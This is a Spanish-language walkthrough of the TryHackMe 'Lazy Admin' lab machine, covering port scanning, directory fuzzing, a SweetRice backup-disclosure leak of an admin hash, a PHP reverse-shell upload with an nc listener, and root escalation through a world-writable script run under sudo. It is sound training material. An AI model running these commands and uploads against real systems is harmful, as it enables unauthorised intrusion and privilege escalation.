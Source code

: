 # Lazy Admin - TryHackMe (Fácil)

Lazy Admin es una máquina Linux de la plataforma TryHackMe de dificultad fácil.

- [Reconocimiento](#reconocimiento)
- [Enumeración](#enumeracion)
- [Explotación](#explotacion)
- [Post-Explotación](#post-explotacion)
- [Escalada de privilegios](#escalada-de-privilegios)

## Reconocimiento

Lo primero es hacer ping a la IP de la máquina para comprobar si hay conectividad.

![ping](captura_2025-05-24_11-54-59.png)

Hacemos un escaner con Nmap para detectar los puertos abiertos en la máquina.
Utilizamos los siguientes argumentos:

- **-p-** para escanear los 65535 puertos.
- **-vvv** para que Nmap nos reporte los puertos abiertos en el momento de detectarlos.
- **--open** para solamente buscar puertos abiertos.
- **-sS** para solamente enviar paquetes SYN y no ACK, de forma que el escaneo es mucho mas rápido.
- **-Pn** para no hacer ping a la máquina, ya que ya sabemos que hay conectividad.
- **-T5** para aumentar la velocidad del escaner al máximo.
- **-oN** para exportar el escaneo a un archivo de tipo Nmap.

`sudo nmap -p- -vvv --open -sS -Pn -T5 -n 10.10.125.44 -oN open-ports`

Vemos que estan abiertos el puerto 22 y el 80.

![puertos](captura_2025-05-24_11-56-22.png)

Hacemos otro escaner con Nmap para determinar los servicios que corren en los puertos 22 y 80.
Utilizando el argumento **-sVC** para detectar la versión del servicio y lanzar scripts básicos.

`nmap -p 22,80 -sVC -vvv -Pn -n 10.10.125.44 -oN scan`

El escaner nos reporta que en el puerto 22 corre un servicio OpenSSH 7.2p2 y en el 80 un Apache httpd 2.4.18.

```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCo0a0DBybd2oCUPGjhXN1BQrAhbKKJhN/PW2OCccDm6KB/+sH/2UWHy3kE1XDgWO2W3EEHVd6vf7SdrCt7sWhJSno/q1ICO6ZnHBCjyWcRMxojBvVtS4kOlzungcirIpPDxiDChZoy+ZdlC3hgnzS5ih/RstPbIy0uG7QI/K7wFzW7dqMlYw62CupjNHt/O16DlokjkzSdq9eyYwzef/CDRb5QnpkTX5iQcxyKiPzZVdX/W8pfP3VfLyd/cxBqvbtQcl3iT1n+QwL8+QArh01boMgWs6oIDxvPxvXoJ0Ts0pEQ2BFC9u7CgdvQz1p+VtuxdH6mu9YztRymXmXPKJfB
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBC8TzxsGQ1Xtyg+XwisNmDmdsHKumQYqiUbxqVd+E0E0TdRaeIkSGov/GKoXY00EX2izJSImiJtn0j988XBOTFE=
|   256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILe/TbqqjC/bQMfBM29kV2xApQbhUXLFwFJPU14Y9/Nm
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Si entramos en la paǵina vemos la paǵina por defecto de apache.

![página](captura_2025-05-24_11-57-37.png)

## Enumeración

Hacemos fuzzing con la herramienta `ffuf` y vemos que hay un directorio /content.

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e .html,.txt,.md,.php -u http://10.10.125.44/FUZZ
```

![ffuf](captura_2025-05-24_11-59-57.png)

Volvemos a lanzar el comando para enumerar directorios y archivos dentro del directorio /content. Y vemos que nos reporta varios, entre ellos un archivo `changelog.txt`

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e .html,.php,.txt,.md,.js -u http://10.10.125.44/content/FUZZ
```

![ffuf](captura_2025-05-24_12-36-47.png)

Dentro de este directorio podemos ver que la aplicación web es un SweetRice - version 1.5.0

![changelog](captura_2025-05-24_12-16-07.png)

Buscamos si esta aplicación tiene vulnerabilidades con el comando `searchsploit` y vemos que hay unas cuantas.

![vulnerabilidades](captura_2025-05-24_12-16-42.png)

De momento nos vamos a centrar en la vulnerabilidad **"Backup Disclosure"** la cual nos va a permitir ver archivos backup.

![](captura_2025-05-24_12-22-38.png)

En [Exploit DB](https://www.exploit-db.com/exploits/40718) podemos ver que dentro de http://host/inc se encuentran, entre otras cosas archivos backup. En este caso dentro de **/mysql_backup** vemos un archivo **.sql**. El cual contiene información sensible, como vamos a ver a continuación.

![/mysql_backup/](captura_2025-05-24_12-23-19.png)

Descargamos el archivo y lo revisamos.

`cat mysql_bakup_20191129023059-1.5.1.sql`

Podemos ver como dentro de la tabla options se insertan varios datos. Entre ellos, la contraseña del usuario admin, encriptada

![alt text](captura_2025-05-24_12-27-56.png)

Copio el hash y lo pego en [Crackstation](https://crackstation.net/) y me reporta que la encriptación es de tipo **md5** y que la contraseña es Password123

![Crackstation](captura_2025-05-24_12-35-55.png)

Revisando mas detenidamente el backup vemos que el usuario es manager.

![usuario](captura_2025-05-24_13-26-16.png)

## Explotación

Iniciamos sesión en http://10.10.125.44/content/as/

![login](captura_2025-05-24_13-25-57.png)

Vemos el código de esta otra vulnerabilidad [ExploitDB](https://www.exploit-db.com/exploits/40716), la cual nos permite subir un archivo.


Me descargo la reverse shell de php pentestmonkey (la cual es muy efectiva) en:

https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php

Edito la IP por la mía y cambio el puerto de escucha al 4444.

![](captura_2025-05-24_13-32-22.png)

La guardo como `shell.php5` porque he intentado subirlo como .php y no me dejaba, y revisando el código de la PoC recomendaba guardarlo como .php5.

![](captura_2025-05-24_13-38-59.png)

Subo el archivo en: http://10.10.231.218/content/as/?type=media_center

![Subida del archivo shell.php5](captura_2025-05-24_13-30-09.png)

Dentro de http://10.10.231.218/content/attachment/ podemos ver el archivo subido.

![](captura_2025-05-24_13-39-28.png)

Le damos Click y obtenemos la shell reversa (anteriormente hay que poner el puerto 4444 en escucha con el comando `nc -lvnp 4444`)

![shell](captura_2025-05-24_13-39-50.png)

## Post-Explotación

Estabilizamos la shell con los siguientes comandos:

```
python3 -c "import pty;pty.spawn('/bin/bash')"
Ctrl + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
```

![shell estable](captura_2025-05-24_13-41-37.png)

## Escalada de privilegios

Con `sudo -l` vemos que podemos ejecutar el comando `/usr/bin/perl /home/itguy/backup.pl` como root y sin necesidad de introducir la contraseña de www-data.

![sudo -l](captura_2025-05-24_13-43-49.png)

El archivo `/home/itguy/backup.pl` es un código en pearl que ejecuta el archivo `/etc/copy.sh`, el cual, si nos fijamos tiene permisos de escritura por cualquier usuario.

![](captura_2025-05-24_13-51-52.png)

Escribimos `/bin/bash` dentro de `/etc/copy.sh` para que cuando este archivo sea ejecutado, abra una shell como root.

```
echo '/bin/bash' > /etc/copy.sh
sudo /usr/bin/perl /home/itguy/backup.pl
```

Despues de ejecutar con sudo el archivo `backup.pl` obtenemos una shell como root

![](captura_2025-05-24_13-53-50.png) 

Dentro de /root tenemos el archivo root.txt

![root.txt](captura_2025-05-24_13-54-04.png) 

También tenemos acceso al archivo `user.txt` dentro de `/home/itguy`

![user.txt](captura_2025-05-24_13-54-44.png)